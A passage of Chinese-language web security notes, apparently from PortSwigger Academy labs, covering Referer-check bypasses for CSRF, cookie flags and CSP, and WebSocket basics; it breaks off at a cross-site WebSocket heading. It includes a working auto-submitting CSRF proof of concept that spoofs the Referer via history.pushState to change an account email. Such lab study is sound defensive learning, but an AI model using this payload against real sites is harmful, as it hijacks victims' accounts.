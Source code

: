 ```html
<meta name="referrer" content="no-referrer">
```

2. 服务端只是简单的对referer的内容做了匹配，可配置服务器响应头为Referrer-Policy: unsafe-url，在发起请求时，更改history的state，令其参数为目标网站，以此绕过

```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
Server: Academy Exploit Server
Content-Length: 548

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?id=https://0a690026044a39878000088100e600fa.web-security-academy.net')</script>
    <form action="https://0a690026044a39878000088100e600fa.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="dafs&#64;das&#46;cdsa" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```







#### HttpOnly, SameSite, Secure and CSP 

|  Method  |                           Function                           |
| :------: | :----------------------------------------------------------: |
| HttpOnly |               防止Javascript读取cookie，防XSS                |
| SameSite |          限制跨站请求携带第三方cookie的情形，防CSRF          |
|  Secure  |               保证该cookie只在https协议下传输                |
|   CSP    | 用于响应头，用来限制这个网站的资源加载来源，包括但不限于script css img，可以防XSS,CSRF |



### WebSocket

websocket不同于https协议，http/https协议采用的是短连接的方式，如果服务器长时间接受不到客户端的请求，服务器就会关闭这个连接以节省资源，提高性能（可以使用keep alive来改变），但是websocket（TCP）连接时，除非客户端显式的声明关闭连接，服务器不会主动关闭连接，只会检查客户端是否存活。Web socket是全双工的协议，主要用于实现双向通信和实时数据传输，适用于在线游戏、聊天室、股票行情等需要实时交互的场景；而HTTPS协议主要用于保护网站和客户端之间的通信安全，适用于敏感信息的传输。websocket也可以建立在https信道上。

Cross-site WebSocket 危害
